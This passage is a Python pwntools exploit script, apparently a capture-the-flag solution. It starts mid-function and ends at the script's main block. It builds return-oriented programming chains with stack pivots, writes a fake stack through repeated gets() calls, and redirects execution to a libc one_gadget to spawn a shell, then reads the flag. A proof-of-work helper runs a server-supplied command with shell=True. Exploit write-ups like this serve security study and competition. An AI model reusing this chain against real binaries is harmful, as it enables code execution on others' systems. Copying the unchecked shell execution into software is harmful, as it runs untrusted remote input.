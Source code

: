 ```python
	payload += p64(0x404860)				# next rbp
	payload += p64(add_ah_dh_ret)
	payload += p64(add_eax_x2ecb)*0x15f		# 0x402855
	payload += p64(mov_eax_edi_gets_ret) 	# gets(0x402855) #3
	payload += p64(leave_ret)
	conn.sendlineafter(">\n",payload)		# gets #1
	
	conn.sendline(b'\x00'*4+b'\x20'*3)		# gets #2

	fake_stack = b''
	fake_stack += b'xxx' 					# start at 0x402855
	fake_stack += p64(pop_rbp_ret)
	fake_stack += p64(addr_start)
	fake_stack += (p64(pop_rbp_ret)+p64(0x404f00))*(0x40-1)
	fake_stack += p64(addr_start)

	conn.sendline(fake_stack)				# gets #3

	# prepare (_IO_file_underflow+357) on bss
	payload = b''
	payload += b'x'*0x10
	payload += p64(0x404858)
	payload += p64(leave_ret)
	conn.sendlineafter(">\n",payload)

	payload = b''
	payload += b'x'*0x10
	payload += p64(0x404a30+0x10)
	payload += p64(0x4011be) 				# lea rax,[rbp-0x10]; mov rdi, rax; gets(); leave; ret;
	conn.sendlineafter(">\n",payload)

	rop = b''
	rop += p64(0xdeadbeef) #				# start at 0x404a30
	rop += p64(0xe6f2c)  	    # rbx		(libc_start+139)+0xe6f2c = one_gadget
	rop += p64(0xdeadbee2) 		# r12

	rop += p64(pop_rbp_ret) 	#
	rop += p64(0x404a20)
	rop += p64(leave_ret)
	
	rop += p64(0x404be8+0x3d) #rbp
	rop += p64(iikanzi) #ret
	rop += p64(pop_rbp_ret) #rbp
	rop += p64(0x404be8-8) #rbp				# [0x404be8] = one_gadget
	rop += p64(leave_ret) #rbp
	
	conn.sendline(rop)
	conn.sendline('cat flag*')
	#conn.sendline('id')
	conn.interactive()	

def pow():
	conn.recvline()
	cmd = conn.recvline()
	val = subprocess.Popen(cmd, stdout=subprocess.PIPE, shell=True).communicate()[0].strip()
	conn.sendline(val)
	print("[+] hashcode done")

if __name__ == "__main__":
	pow()
	exploit()
```
